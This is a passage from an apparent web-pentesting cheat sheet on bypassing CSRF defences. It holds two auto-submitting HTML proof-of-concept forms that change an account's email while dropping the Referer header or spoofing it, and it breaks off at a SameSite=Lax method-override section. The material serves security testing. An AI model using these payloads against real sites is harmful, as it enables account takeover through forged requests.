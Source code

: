 ```html
</html>
```
# CSRF Protection Bypass (Referer Header Validation Bypass)

If the app is using the Referer header for protection against CSRF, remove the header/value completely and review if the request was processed successfully. If the request was still successful, an HTML form can be crafted that includes some attributes that will cause the browser to drop the "Referer" header with the request:

```html
<html>
    <meta name="referrer" content="never">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

As an example, an app may use the Referer header to defend against CSRF attacks by only checking to see if a specific domain value was somewhere within the Referer header. It can be easily bypassed by submitting a payload that will inject the required domain value as a query parameter in the Referer header:

```html
<html>
    <meta name="referrer" content="unsafe-url">
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/?REQUIRED-REFERER-VALUE')</script>
    <form action="https://VULNERABLE-APPLICATION.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="Test@Test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
# SameSite Lax Bypass via Method Override

If the app is setting the session cookie with the `SameSite=Lax` configuration, identify all the state changing requests and determine if the request can be sent with a GET request. If GET requests are blocked, you can use method override to bypass restrictions.

Certain frameworks allow it such as Symfony. As an example:
